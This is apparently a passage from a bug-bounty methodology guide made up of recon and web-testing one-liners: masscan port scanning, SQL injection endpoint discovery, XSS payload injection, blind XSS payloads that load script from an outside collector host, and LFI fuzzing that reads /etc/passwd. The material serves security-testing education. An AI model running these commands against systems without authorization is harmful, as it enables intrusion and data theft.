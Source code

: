 Masscan for speed
masscan -p0-65535 target.com --rate 100000 -oG masscan-results.txt

Vulnerability Discovery
After collecting all domains and URLs, it’s time to move from information gathering to actual testing. This is where recon meets exploitation. Now use the data you’ve collected to start testing for real vulnerabilities using different tools and techniques.

SQL Injection Testing
SQL Injection is still one of the most dangerous and impactful web vulnerabilities. Here’s a practical approach to identify and exploit it effectively.
for possible SQL technology detection:
subfinder -dL subdomains.txt -all -silent | httpx-toolkit -td -sc -silent | grep -Ei 'asp|php|jsp|jspx|aspx'
for single domain:
subfinder -d http://example.com -all -silent | httpx-toolkit -td -sc -silent | grep -Ei 'asp|php|jsp|jspx|aspx'
This command will filter out URLs using technologies and patterns that are commonly vulnerable to SQL injection, helping you prioritize high-risk targets for testing.
for possible SQL Endpoints:
echo http://site.com | gau | uro | grep -E ".php|.asp|.aspx|.jspx|.jsp" | grep -E '\?[^=]+=.+$'
This command filters URLs with extensions commonly linked to SQL injection vulnerabilities.

Cross-Site Scripting (XSS) Testing
XSS is a common and dangerous vulnerability that lets attackers inject malicious scripts into web pages, leading to session hijacking, redirects or defacement. Start with these one-liners for quick detection, then move on to advanced techniques like blind XSS and parameter fuzzing for deeper testing.
echo "target.com" | gau | gf xss | uro | httpx -silent | Gxss -p Rxss | dalfox
echo "example.com" | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln
echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt
cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > final.txt

XSS Testing Using FFUF Request Mode
ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr "<script>alert('XSS')</script>"

Blind XSS Testing
cat urls.txt | grep -E "(login|signup|register|forgot|password|reset)" | httpx -silent | nuclei -t nuclei-templates/vulnerabilities/xss/ -severity critical,high
subfinder -d example.com | gau | bxss -payload '"><script src=https://xss.report/c/coffinxp></script>' -header "X-Forwarded-For"
subfinder -d example.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://xss.report/c/coffinxp></script>' -parameters
cat xss_params.txt | dalfox pipe --blind https://your-collaborator-url --waf-bypass --silence

Local File Inclusion (LFI) Testing
Local File Inclusion (LFI) is a vulnerability that lets attackers include and read files from the server such as /etc/passwd, log files or configuration files. It can lead to sensitive data exposure, code execution or even full system compromise. Use the following one-liners to automate LFI detection and fuzz for vulnerable parameters.

Automated LFI discovery:
nuclei -l subs.txt -t /root/nuclei-templates/http/vulnerabilities/generic/generic-linux-lfi.yaml -c 30
echo "https://example.com/" | gau | gf lfi | uro | sed 's/=.*/=/' | qsreplace "FUZZ" | sort -u | xargs -I{} ffuf -u {} -w payloads/lfi.txt -c -mr "root:(x|\*|\$[^\:]*):0:0:" -v
gau target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
